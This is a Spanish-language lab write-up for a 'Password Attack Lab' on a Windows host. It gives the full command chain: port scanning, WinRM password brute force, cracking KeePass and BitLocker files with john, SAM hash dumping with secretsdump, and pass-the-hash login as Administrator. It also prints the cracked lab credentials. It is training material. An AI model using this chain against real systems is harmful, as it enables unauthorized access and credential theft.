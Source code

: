 # Password Attack Lab - Hard

## Enunciado

The next host is a Windows-based client. As with the previous assessments, our client would like to make sure that an attacker cannot gain access to any sensitive files in the event of a successful attack. While our colleagues were busy with other hosts on the network, we found out that the user `Johanna` is present on many hosts. However, we have not yet been able to determine the exact purpose or reason for this.

## Solución 
### nmap
Nos encontramos la siguiente información: 
```textplain
# Nmap 7.94SVN scan initiated Tue Nov 26 14:49:00 2024 as: nmap -p- -v --open -sS --min-rate 5000 -Pn -n -oG openPorts_10.129.202.222 -oN openPorts_10.129.202.222.txt 10.129.202.222
Nmap scan report for 10.129.202.222
Host is up (0.11s latency).
Not shown: 65519 closed tcp ports (reset)
PORT      STATE SERVICE
111/tcp   open  rpcbind
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
2049/tcp  open  nfs
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49679/tcp open  unknown
49680/tcp open  unknown
49681/tcp open  unknown

Read data files from: /usr/bin/../share/nmap
# Nmap done at Tue Nov 26 14:49:17 2024 -- 1 IP address (1 host up) scanned in 16.57 seconds
```

### Entrada al sistema - WinRM
Tras hacer fuerza bruta a varios protocolos con `nxc`, encontramos credenciales válidas ejecutando el siguiente comando:
```bash
nxc winrm $target -u 'Johanna' -p mut_password.list | grep [+]
```
encontrando como password válida `1231234!`

En la carpeta del usuario encontramos un arhcivo `logins.kbdx`


### Archivo `logins.kdbx`

- Es un archivo de tipo keepass. Lo movemos a nuestra pwnbox e instalamos keepass 
	```
	sudo apt install keepass2 
	```

	para abrir el arhivo. Comprobamos que está protegido por contraseña.

- Encontramos la contraseña que descomprime el archivo ejecutando lo siguiente: 

	```bash
	keepass2john logins.kbdx > logins.hash
	john --wordlist=mut_password.list logins.hash
	```

	encontrando la siguiente pass: `Qwerty7!`

- En el archivo keepass encontramos las siguientes credenciales:
	- Windows: `david:gRzX7YbeTcDG7`
	- Recicle bin: `User Name:Password`
	- Recicle bin: `Michael321:12345`


### Acceso por SMB como usuario `david`

- Podemos acceder con las credenciales dadas al servicio 
	
	```bash
	nxc smb $target -u 'david' -p 'gRzX7YbeTcDG7' --shares
	```
	Encontramos una carpeta de nombre `david` , y accedemos a su contenido
	
	```bash
	smbclient -U david //$target/david
	```
	
	Allí hay un archivo llamado `backup.vhd` que intentamos descargar, pero nos da un error relacionado con `timeout`. Tras ejecutar `smbclient` del siguiente modo: 
	
	```bash
	smbclient -U david //$target/david -t 120
	```
	ya podemos descargar el contenido del archivo

- Movemos el archivo descargado a una máquina Windows para inspeccionar su contenido, pero está protegido por contraseña. Nos dice que está protegido por BitLocker Drive Encryption. Encontramos la pass que nos permite montar el disco del siguiente modo:
	```
	bitlocker2john -i Backup.vhd > backup.hash
	john --wordlist=mut_password.list backup.hash
	```

	Encontrando que la pass es `123456789!`

- Montamos el archivo en la máquina Windows, utilizando powershell del siguiente modo: 

	```powershell
	Unlock-BitLocker -MountPoint "E:" -Password (Read-Host "Enter BitLocker Password" -AsSecureString)
	```

	Encontrando dos archivos: `SAM` y `SYSTEM`

- Obtenemos los hashes de los usuarios utilizando `secrectsdump` del siguiente modo: 
	```bash
	 python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam SAM -security SYSTEM > secretsdump.txt
	```

- Nos conectamos nuevamente utilizando `evil-winrm` y PtH
	```bash
	 cat secretsdump.txt| grep Administrator | grep -oP '(?<=aad3b435b51404eeaad3b435b51404ee:)[a-f0-9]{32}' | tr -d > hashAdmin
	  evil-winrm -i $target -u Administrator -H $(cat hashAdmin)

	```

	Lo que nos permite obtener la flag 

	



